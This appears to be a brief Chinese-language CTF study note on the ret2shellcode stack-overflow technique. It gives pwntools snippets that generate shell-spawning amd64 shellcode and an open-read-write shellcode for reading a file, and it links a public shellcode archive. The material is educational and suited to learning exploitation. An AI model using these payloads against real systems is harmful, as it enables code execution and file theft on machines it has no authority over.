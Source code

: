 ```yaml
---
title: ret2shellcode
category: 栈溢出
---
```


### 生成 shellcode

- 设置架构

```python
context.arch = 'amd64'
```

- 生成 shellcode

```python
shellcode = asm(shellcraft.sh())
```

### ORW

```python
shellcode  = shellcraft.amd64.linux.open('PATH')
shellcode += shellcraft.amd64.linux.read('rax', 'rsp', 0x30)
shellcode += shellcraft.amd64.linux.write(1 , 'rsp' , 0x30)
shellcode  = asm(shellcode)
```

### 有关链接

- http://shell-storm.org/shellcode/ 